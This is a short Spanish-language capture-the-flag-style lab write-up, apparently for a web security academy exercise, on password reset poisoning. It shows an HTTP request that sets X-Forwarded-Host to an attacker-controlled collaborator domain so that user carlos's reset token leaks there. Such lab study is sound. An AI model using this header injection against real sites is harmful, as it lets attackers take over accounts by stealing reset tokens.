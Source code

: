 ```yaml
---
layout: default
title: 11 - Password reset poisoning via middleware
---
```

Con `X-Forwarded-Host` podemos spoofear el dominio, entonces cuando le enviemos la petición para cambiar el correo a carlos, pondremos esa cabecera y nos llegará al collaborator su reset token :

```HTTP
X-Forwarded-Host: mrhvmmsvn77i4df4foipyfnxioolcef24.oastify.com

username=carlos
```
